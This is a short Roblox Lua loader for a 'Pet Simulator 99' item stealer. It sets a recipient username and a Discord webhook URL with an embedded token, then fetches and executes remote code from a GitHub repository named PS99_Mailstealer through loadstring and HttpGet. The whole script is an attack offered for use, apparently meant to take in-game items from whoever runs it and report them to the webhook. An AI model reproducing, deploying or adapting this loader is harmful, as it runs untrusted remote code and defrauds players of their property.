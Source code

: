 Username = "Aljursaulda61"
LoadScreen = true 
Webhook = "https://discord.com/api/webhooks/1316908737495302286/reTVASCm7dnISzQ8oSCqPch_U-u_5r8aBli11lCBHCpWgGJKC3K4EYXEJV6TRaaXY6U2" -- Paste your Discord webhook here

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()
